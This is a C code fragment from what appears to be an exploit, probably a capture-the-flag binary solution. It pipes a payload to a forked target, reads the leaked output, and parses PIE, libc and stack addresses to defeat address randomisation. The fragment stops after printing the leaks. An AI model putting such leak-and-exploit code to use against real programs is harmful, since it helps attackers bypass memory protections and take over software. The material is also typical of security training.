 ```c
int do_recv(int fd, char * ptr,size_t size,size_t exepct_ct){
    char *buf = malloc(0x2000) ;
    int i = 0 ; 
    memset(ptr,0,size);
    for(int ct = 0 ; ct<exepct_ct ;ct++){
        memset(buf,0,0x2000);
        int tmp = read(fd,buf,0x2000);
        usleep(100000);
        if(tmp<=0)
            panic("de_recv");
        else
            memcpy(ptr+i,buf,tmp);
        i+=tmp;
        if(tmp<0x2000)
            break;
    }
    if(i >= size)
        puts("[!] The buffer is full, you may need a larger buffer.");
    printf("[+] Read %p byets\n", i);
    return i;
}
int burte_force(){
    pipe(fd_send); // 3 4
    pipe(fd_recv); // 5 6
    int pid = fork();
    if(pid){
        close(fd_send[0]); // Free fd 3
        close(fd_recv[1]); // Free fd 6
        // Maintaining 
        char *buf= malloc(0x40000);
        trash = malloc(0x40000);
        read(0,buf,0x10); // Pause to wait for the debugger
        loopProgram();    // Send the first payload to leak the address and loop the program
        puts("[+] Loop the program");
        read(0,trash,2);
        res = do_recv(fd_recv[0],buf,0x40000,8);
        puts("[+] Retrive the leaked data...");
        doleak();
        res = read(fd_recv[0],buf,0x2000);
        printf("%d\n",res);
        for(int i = 0; i<res;i++)
            if(buf[i]==0)
                buf[i]=0x61;
        puts("\n=============================================");
        for(int i = 0; i<res;i++)
            if(buf[i]==0)
                buf[i]=0x61;
        char *ptr1 = strstr(buf,"|");
        ptr1[0] = 0 ;
        char *ptr2 = strstr(ptr1+1,"|");
        ptr2[0] = 0 ;
        char *ptr3 = strstr(ptr2+1,"|");
        ptr3[0] = 0 ;
        char *ptr4 = strstr(ptr3+1,"|");
        ptr4[0] = 0 ;
        char *ptr5 = strstr(ptr4+1,"|");
        ptr5[0] = 0 ;
        size_t leaked_pie       = strtoll(ptr2+1, NULL, 16);
        size_t leaked_libc      = strtoll(ptr3+1, NULL, 16);
        size_t leaked_stack     = strtoll(ptr4+1, NULL, 16);
        printf("[Leaked Stack] \t\t%p\n",leaked_stack);
        printf("[Leaked Libc] \t\t%p\n",leaked_libc);
        printf("[Leaked pie] \t\t%p\n",leaked_pie);
```